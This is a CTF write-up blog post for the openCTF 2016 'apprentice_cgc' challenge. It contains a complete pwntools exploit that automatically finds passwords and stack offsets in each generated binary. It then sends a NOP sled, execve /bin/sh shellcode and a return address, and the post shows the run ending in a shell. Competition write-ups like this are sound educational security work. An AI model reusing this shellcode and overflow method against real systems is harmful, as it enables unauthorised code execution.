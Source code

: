 ```yaml
---
layout: post
title: openCTF 2016 - apprentice_cgc
category: [Exploitation]
tags: [Exploitation, openCTF]
comments: true
---
```


**Points:** 300
**Solves:** 
**Category:** Exploitation, CRS
**Description:** So, neophyte_cgc was pretty straightforward.
This isn't.
Server: 172.31.1.47:1624

> [apprentice_cgc]({{site.url}}/assets/apprentice_cgc)

Statically compiled, stripped binary this challenge was about Automatic Exploit Generation (AEG). The server sends us a binary with two different passwords on every run. We have to send the correct passwords in order to reach the vulnerable function.

![vuln]({{site.url}}/assets/screen-openctf-3.png)

The `vulnerable` function had a classic stack overflow with no canaries, NX disabled and ASLR disabled.

![vuln2]({{site.url}}/assets/screen-openctf-4.png)

The local stack size of the vulnerable function was also different on each run.

# Ghetto Solution

Solution steps:  

1. Connect to the server and get the binary
2. Drop the binary on disk and analyze it with objdump, storing the output in a variable
3. Since the 2 password strings were exactly 32 bytes each and lowercase alphanum chars I used strings to find them
4. Used the objdump output to find the size of the `vulnerable` function
5. Send the payload and get the flag

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys, re

# flag itoldyou__IT_WOULD_GET_W0rse_imnotangrybro

def filterPick(list,filter):
    return [ ( l, m.group(1) ) for l in list for m in (filter(l),) if m]


def exploit(r):
  if len(sys.argv) > 1:   # if remote get the binary and store on disk
    r.recvuntil("Apprentice CRS - (Cyber Reasoning System)\n")
    binary = r.recvuntil('Can you exploit me in under 10 seconds?\n')

    ofile = open('apprentice_cgc_drop', 'wb')
    ofile.write(binary)
    ofile.close()

  else:        # else use binary already on disk
    binary = bytearray(open('apprentice_cgc', 'r').read())
  
  entry = u32(binary[0x18:0x18+4])            # find entry point from
  log.info("Entry point: " + hex(entry))      # elf header

  # get output of objdump
  output = subprocess.Popen(["objdump", "-d", "-M", "intel", "apprentice_cgc_drop"], stdout=subprocess.PIPE).communicate()[0].split('\n')

  for line in range(len(output)):             # parse each line
    if hex(entry)[2:]+':' in output[line]:    # look for entry point
      for i in range(15):                     # get 15 lines down from entry point
        if 'call' in output[line+i]:          # get the line of entry point
          main = output[line+i-1].split(' ')[-1][2:]  # get the first argument (addr of main)
          log.info("Main at: " + main)        # main found

  main_output = []                            # store main disassembly here
  for line in range(len(output)):             # parse output
    if main+':' in output[line]:              # from main's address
      i = 0
      while 'ret' not in output[line+i]:      # until ret
        main_output.append(output[line+i])
        i += 1
      break

  calls = []                                  # store addr of all called funcs from main
  for line in range(len(main_output)):
    if 'call' in main_output[line]:
      calls.append(main_output[line].split(' ')[-1].strip())

  strings = subprocess.Popen(["strings", "-n 32", "-d", "apprentice_cgc_drop"], stdout=subprocess.PIPE).communicate()[0].split('\n')

  searchRegex = re.compile('(^[a-z0-9]{32}$)').search # regex to find the 2 passwds
  x = filterPick(strings,searchRegex)         # find the two passwords
  canaries = []

  canaries.append(x[0][0])
  canaries.append(x[-1][-1])
  print canaries                              # let me see the passwords

  r.sendline(canaries[0].strip())             # send the first password
  r.recvline()
  r.recvline()
  inBuffer = int(r.recvline().strip(), 16)    # Oh the binary sends us 
  log.info("Stack is at: " + hex(inBuffer))   # the addr of the stack :)

  for line in range(len(output)):
    if calls[-1][2:]+':' in output[line]:     # from the start of the vuln func's disassembly
      for i in range(5):                      # look 5 lines down
        if 'sub' in output[line+i]:           # if u see 'sub'
          offset = int(output[line+i].split(',')[-1].strip(), 16) # get size of stack frame
      

      for i in range(9, 15):                  # in vuln func 9 lines down
        if 'lea' in output[line+i]:           # look for local buffer
          vulnBuf = int( output[line+i].split('-')[-1].strip(']'), 16) # get distance between
                                                                      # stack frame and buffer

  offset = offset + (offset - vulnBuf)+3      # calc how much garbage to send

  sc = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
      "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")

  r.send(canaries[1]+"\x00")

  payload = "\x90" * (offset - (len(sc)))
  payload += sc
  payload += p32(inBuffer-(offset/2)) * 100

  r.sendline(payload)

  r.interactive()


if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/vagrant/openCTF/apprentice_cgc'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}


{% highlight text %}
➜  openCTF python ./apprentice_cgc_solution.py
[*] For remote: ./apprentice_cgc_solution.py HOST PORT
[+] Starting program '/vagrant/openCTF/apprentice_cgc_drop': Done
[22003]
[*] Paused (press any to continue)
[*] Entry point: 0x8048736
[*] Main at: 8048909
['0x8048760', '0x806ccf0', '0x8050c70', '0x8050c70', '0x804ed50', '0x8048280', '0x80488da', '0x804ed50', '0x8048280', '0x804889a']
['etvqwoqfrevvmesmuwtnzvqbbaozpxdt', 'apovsbykslqvuziibstoyjqmtjywfwjo']
[*] Stack is at: 0xffce268c
[*] Switching to interactive mode
$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
$
{% endhighlight %}